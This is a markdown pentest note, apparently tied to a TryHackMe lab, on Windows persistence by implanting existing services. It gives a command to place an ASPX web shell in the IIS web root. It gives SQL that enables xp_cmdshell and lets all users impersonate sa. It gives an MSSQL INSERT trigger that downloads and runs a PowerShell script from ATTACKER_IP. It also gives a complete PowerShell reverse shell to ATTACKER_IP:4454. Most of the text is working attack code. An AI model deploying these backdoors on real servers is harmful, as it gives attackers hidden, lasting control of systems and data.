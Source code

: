 
# Windows Persistence - Implant Existing Services

Target applications where you have some degree of control on what gets executed should be backdoorable similarly.

## Implanting Web Server Using Web Shells

`iis apppool\defaultapppool` even though it is not a administrators group member or equivalent has `SeImpersonatePrivilege`, which can easily escalatepost reverse shell call back. See [[SePrivilege-Token-Table]].

```powershell
#  place shell in web directory
move shell.aspx C:\inetpub\wwwroot\
```

[Link to a web shell recommended on THM](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx)

## MSSQL as Backdoor

There are many I will update this section as I research them or come across or are messsage about.

#### MSSQL Server Installation

This option uses [triggers](https://learn.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql?view=sql-server-ver16) in MSSQL which allow the binding of functionality to events that occur in the database. It requires requires the databases to be configured to enable `xp_cmdshell`, [disabled by default](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16) and *"as a security best practice it is recommended to only enable it for the duration of the actual task that requires it."*

The [THM room](https://tryhackme.com/room/windowslocalpersistence) uses the  `Microsoft SQL Server Management Studio 18`,by default, the local Administrator account will have access to all DBs.

Click to `New Query`, then reconifgure the database to allow for `xp_cmdshell`:
```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```
By default only users with `sysadmin` (default administrator) role can run `xp_cmdshell`, so grant privilege to all users of the `sa` user. 
```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];

USE HRDB
```

Create the trigger whenever `INSERT` is used against the database to then download:
```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

[[Reverse-Shells-Listing]] for example in powershell

```powershell
# evilscript.ps1
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```


## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)
[create trigger documentation](https://learn.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql?view=sql-server-ver16)
[xp_cmdshell documentatIon](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16)
